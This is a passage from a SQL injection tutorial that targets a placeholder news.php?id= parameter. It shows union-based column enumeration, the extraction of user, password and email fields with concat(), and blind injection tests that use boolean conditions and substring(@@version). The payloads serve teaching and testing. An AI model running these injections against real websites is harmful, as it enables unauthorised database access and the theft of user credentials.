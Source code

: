The first column is getting displayed so to move further and retrieve the second we will need once again change "limit 0,1" to "limit 1,1".

**Example:**

```none
http://server/news.php?id=5 union all select 1,column_name,3 from information_schema.columns limit 1,1/*
```

The second column is displayed, so keep incrementing until you get something like username, user, login, password, pass, passwd, etc... If you want to display the column names for specific table use the following query:

**Example:**

```none
http://server/news.php?id=5 union all select 1,column_name,3 from information_schema.columns where table_name='users'/*
```

Now we get displayed column name in table users. Note, this won’t work if the magic quotes are ON. Let’s say that we found columns user, pass and email, now to complete the query, we put them all together and for that, we will use **concat()**.

**Example:**

```none
http://server/news.php?id=5 union all select 1, concat(user,0x3a,pass,0x3a,email) from users/*
```

From the above example, we shall get the user:pass:email from table users.

* * *

###### BLIND SQL INJECTION

The blind injection is a little more complicated than the classic injection but it can be with the following methodology. We need first to check if the website is vulnerable or not.

A normal query should be as per the following example:

```none
http://server/news.php?id=5 and 1=1 <-- this is always true
```

Now to check if the website is subject to blind SQL injection just switch "1" by "2"

```none
http://server/news.php?id=5 and 1=2 <-- this is false
```

If your page is returned with some missing content such as text or images that simply means the page is vulnerable to blind SQL injection.

**Get the MySQL version**

To get the version of MySQL in a blind attack we use substring.

```none
http://server/news.php?id=5 and substring(@@version,1,1)=4
```
